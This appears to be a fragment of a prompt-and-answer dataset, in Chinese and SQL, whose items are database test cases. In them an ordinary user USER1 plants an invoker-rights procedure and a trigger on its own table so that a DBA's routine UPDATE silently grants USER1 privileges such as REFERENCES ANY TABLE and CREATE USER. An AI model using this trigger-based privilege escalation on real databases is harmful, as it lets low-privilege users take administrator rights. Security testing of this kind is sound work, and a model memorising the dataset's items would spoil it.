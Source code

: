 --创建授权存储过程
CREATE OR REPLACE PROCEDURE REFERENCES_ANY_TABLE
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT REFERENCES ANY TABLE TO USER1';
    COMMIT;
END;

--创建触发器，调用存储过程
CREATE OR REPLACE TRIGGER UPDATE_REFERENCES
BEFORE UPDATE ON USER1.T3
FOR EACH ROW
BEGIN
 --调用存储过程
 CALL REFERENCES_ANY_TABLE();
END;

--DBA用户
--更新数据，触发触发器进行授权
UPDATE USER1.T3 SET ID = 'SYSDBA';

--USER1用户
--查看权限
SELECT * FROM USER_SYS_PRIVS;"
生成一组测试用例，能够反应触发器通过调用存储过程实现间接提权功能,user1用户是普通用户，创建存储过程执行授权任意该用户未有的权限，创建更新后触发器，执行该存储过程。使用DBA用户更新user1用户的表，触发触发器调用存储过程进行授权,"--USER1用户
--创建表
CREATE TABLE T4(ID VARCHAR(50));

--插入数据
INSERT INTO T4 VALUES('USER1');

--创建授权存储过程
CREATE OR REPLACE PROCEDURE CREATE_USER
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT CREATE USER TO USER1';
    COMMIT;
END;

--创建触发器，调用存储过程
CREATE OR REPLACE TRIGGER UPDATE_CREATE_USER
AFTER UPDATE ON USER1.T4
FOR EACH ROW
BEGIN
 --调用存储过程
 CALL CREATE_USER();
END;

--DBA用户
--更新数据，触发触发器进行授权
UPDATE USER1.T4 SET ID = 'SYSDBA';
